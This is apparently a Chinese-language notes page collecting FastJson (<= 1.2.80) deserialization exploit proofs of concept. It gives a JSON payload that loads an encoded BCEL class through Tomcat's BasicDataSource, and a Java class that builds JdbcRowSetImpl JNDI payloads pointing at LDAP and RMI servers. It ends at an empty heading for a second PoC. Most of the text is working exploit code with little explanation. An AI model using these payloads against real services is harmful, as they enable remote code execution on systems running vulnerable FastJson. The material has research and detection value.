FastJson <= 1.2.80  
  
利用poc只能用项目中调用的组件和类文件  
```
{    
"a": {        
"@type": "java.lang.Class",        
"val": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"    
},   
"b": {        
"@type": "java.lang.Class",        
"val": "com.sun.org.apache.bcel.internal.util.ClassLoader"    
},    
"c": {       
"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",        
"driverClassLoader": {            
"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"        
},        
"driverClassName": "$$BECL$$$l$8b$I$A$A$A$A$A$A$AeP$bbN$CA$U$3d$D$cb$O$ac$8b$bc$c47$sV$82$854v$Q$h$a3$W$e2$pb$b4$k$c6$J$Z$5cv$c92$Y$fe$c8$9aF$8d$85$l$e0G$Z$efl$M$908$c5$7d$9c$c7$bd7$f3$fd$f3$f9$F$e0$Y$7b$k8J$k$ca$a8d$b1fs$95c$9dc$83c$93$c1m$ebP$9b$T$86t$bd$f1$c0$e0$9cFO$8a$a1$d0$d1$a1$ba$9e$M$7b$w$be$X$bd$80$90l$5b$G$7f$ca$7c$d7$I$f9$7c$rF$JE$b3$Y$bcn4$89$a5$3a$d7$89TMGG$D$f1$o$7cd$91$e3$d8$f2$b1$8d$j$9a$zE$m$7d$ec$a2$c6P$b1$7c3$Qa$bfy6$95jdt$U$d2$N$e4d$u$$$b8$9b$de$40I$c3PZ$40w$93$d0$e8$n$ad$f1$fa$ca$cc$9bj$bd$d1$f9$a7i$d1N5U$92$e1$a0$be$c4vM$ac$c3$7ek$d9p$hGR$8d$c7$z$ec$c3$a5$df$b2$_$Ff$cf$a7$e8QW$a3$cc$ug$O$df$c1fT0$acPt$T$d0$K$fd$b9$f4$o$b1$C$ab$lH$95$d3op$k_$e1$5c$ce$S$yG$ba$M$f1$d6$5b$86C$d1$n$ccM$d0$3c$z$ce$T$c2$91$eap$ac$da$b1$85$e4$8e$e2$_$M$c2$l$G$cb$B$A$A"    
}}
```  
### bit4woo师傅的反序列化集合  
  
https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E4%B8%83%EF%BC%9Afastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96PoC%E6%B1%87%E6%80%BB.md  
#### 基于com.sun.rowset.JdbcRowSetImpl的PoC1  
  
该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。  
```
package fastjsonPoCs;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
/*
基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。 
*/
public class PoC1JNDI {
 public static void main(String[] argv){
 String xx = payload();
 } public static String payload(){
 //JDK 8u121以后版本需要设置改系统变量
 System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
 //LADP
 String payload1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}";
 //RMI
 String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/ref\",\"autoCommit\":true}";

 JSONObject.parseObject(payload2);
 JSON.parse(payload2);
 return payload2;
  }
}
```  
### 基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2  